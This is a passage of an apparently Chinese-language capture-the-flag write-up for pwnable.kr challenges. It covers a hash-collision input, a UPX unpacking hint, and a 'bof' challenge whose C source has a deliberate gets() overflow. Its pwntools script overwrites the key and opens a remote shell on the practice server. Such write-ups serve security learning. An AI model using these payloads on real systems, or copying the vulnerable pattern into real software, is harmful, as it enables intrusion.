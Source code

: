   ```c
          return 0;
      }
      else
          printf("wrong passcode.\n");
      return 0;
  }
  ```
* 哈希碰撞
* char\*变为int\* 20个字节分为5个int，这5个int加起来等于hashcode，即0x01010101*4+0x1dd905e8=hashcode
* 
  ```shell 
  ./col `python -c 'print "\xc9\xce\xc5\x06\xc9\xce\xc5\x06\xc9\xce\xc5\x06\xc9\xce\xc5\x06\xc8\xce\xc5\x06"'`

  ./col `python -c 'print "\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\xe8\x05\xd9\x1d"'`
  ```

### 03 bof 
* 题目
  ```c
  #include <stdio.h>
  #include <string.h>
  #include <stdlib.h>
  void func(int key){
      char overflowme[32];# 注意栈上数据的排列，低地址到高地址：局部变量 ebp 返回地址 参数
      printf("overflow me : ");
      gets(overflowme);       // smash me!
      if(key == 0xcafebabe){
              system("/bin/sh");
      }
      else{
              printf("Nah..\n");
      }
  }
  int main(int argc, char* argv[]){
      func(0xdeadbeef);
      return 0;
  }
  ```
* 栈溢出 
* 题解
  ```python
  from pwn import *
  p=remote('pwnable.kr',9000)
  shellcode = b'A'*0x2c+b'A'*4*2+p32(0xcafebabe)
  p.sendline(shellcode)
  p.interactive()
  ```


### 04 upx脱壳
* upx -d
